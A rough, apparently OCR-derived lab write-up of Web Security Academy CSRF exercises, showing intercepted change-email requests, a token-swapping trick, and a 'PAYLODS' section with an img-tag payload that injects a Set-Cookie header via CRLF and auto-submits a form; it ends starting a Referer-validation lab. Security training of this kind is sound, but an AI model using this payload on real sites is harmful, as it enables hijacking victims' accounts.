     Te: trailers
    Connection: close

    email=nasir%40khan.com&csrf=G0zc7n3MlHSGvkIl3ji5OrCz4MEZQtKv
 
   ## Local User account request
   
  ## Drop The Request Don't sand the request server
 
    POST /my-account/change-email HTTP/1.1
    Host: 0a46002a0304dbd3c03a186b00050036.web-security-academy.net
    Cookie: session=24dpnS4N8crVqQHBTd3QBccYllRZheOe; csrfKey=mVCTxe6SETdHTB59NX7izfWGmQbCJtGt
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 59
    Origin: https://0a46002a0304dbd3c03a186b00050036.web-security-academy.net
    Referer: https://0a46002a0304dbd3c03a186b00050036.web-security-academy.net/my-account?id=wiener
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    email=asif%40khan.com&csrf=G0zc7n3MlHSGvkIl3ji5OrCz4MEZQtKv
 
 
 Copy the csrfKey and csrf token Privilege account, and past the local use csrfKey and csrf token, sand the to request server, Server is accept the request,
 This is vulnerable
 
 
 ## PAYLODS 
 
    <img src="https://0a46002a0304dbd3c03a186b00050036.web-security-academy.net/?search=asif%0d%0aSet-Cookie:%20csrfKey=mVCTxe6SETdHTB59NX7izfWGmQbCJtGt"onerror="document.forms[0].submit()">

 
 
 ## 6 CSRF where Referer validation depends on header being present
 
  Find CSRF vulnerability
  
  Email change functionality is vulnerable to CSRF
  
  Burp intercept request and manualy review
  
  Send the request to Burp Repeater and observe that if you change the domain in the Referer HTTP header then the request is rejected.
  